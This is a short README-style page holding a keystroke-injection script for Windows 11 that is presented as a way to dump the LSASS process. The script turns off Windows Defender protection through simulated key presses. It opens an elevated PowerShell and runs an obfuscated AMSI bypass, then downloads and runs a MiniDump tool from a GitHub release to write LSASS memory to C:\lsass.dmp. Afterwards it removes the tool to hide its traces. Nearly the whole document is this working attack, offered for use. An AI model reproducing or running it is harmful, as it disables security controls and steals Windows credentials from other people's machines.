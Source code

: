 # Credentials - Dump LSASS Process

## Description

This script will download MiniDump, extract it, run it to dump LSASS process to "C:\\lsass.dmp" or where you want.

## Requirement

1. First note this script has been created and tested under Windows 11 Build 22000.
2. I used a QWERTZ keyboard to do this ("ch" layout), so you may need to change that.

## Code

```bash
layout("ch")
press("GUI r")
delay(1000)
type("windowsdefender:")
press("ENTER")
delay(1000)
press("ENTER")
delay(1000)
press("TAB")
press("TAB")
press("TAB")
press("TAB")
press("ENTER")
delay(1000)
press("SPACE")
delay(1000)
press("LEFT")
delay(1000)
press("ENTER")
delay(1000)
press("GUI r")
delay(200)
type("powershell.exe start-process powershell -verb runas")
press("ENTER")
delay(1500)
press("LEFT")
press("ENTER")
delay(1000)
type("[Ref].Assembly.GetType('System.Management.Automation.Amsi'+[char]85+'tils').GetField('ams'+[char]105+'InitFailed','NonPublic,Static').SetValue($null,$true)")
press("ENTER")
delay(1000)
type("(New-Object System.Net.WebClient).DownloadFile('https://github.com/V0lk3n/OSEP-CheatSheet/releases/download/MiniDump/MiniDump.zip','C:\\MiniDump.zip')")
press("ENTER")
delay(1000)
type("cd /")
press("ENTER")
delay(500)
type("mkdir MiniDump")
press("ENTER")
delay(500)
type("Expand-Archive -Path MiniDump.zip -DestinationPath C:\\MiniDump")
press("ENTER")
delay(1500)
type("cd MiniDump")
press("ENTER")
delay(500)
type(".\\MiniDump.exe")
press("ENTER")
delay(1000)
type("C:\\lsass.dmp")
press("ENTER")
delay(1000)
type("cd /")
press("ENTER")
type("rmdir MiniDump")
press("ENTER")
delay(1000)
type("T")
press("ENTER")
delay(1000)
type("del MiniDump.zip")
press("ENTER")
delay(500)
type("exit")
press("ENTER")
delay(1000)
press("SPACE")
delay(1000)
press("ALT F4")
```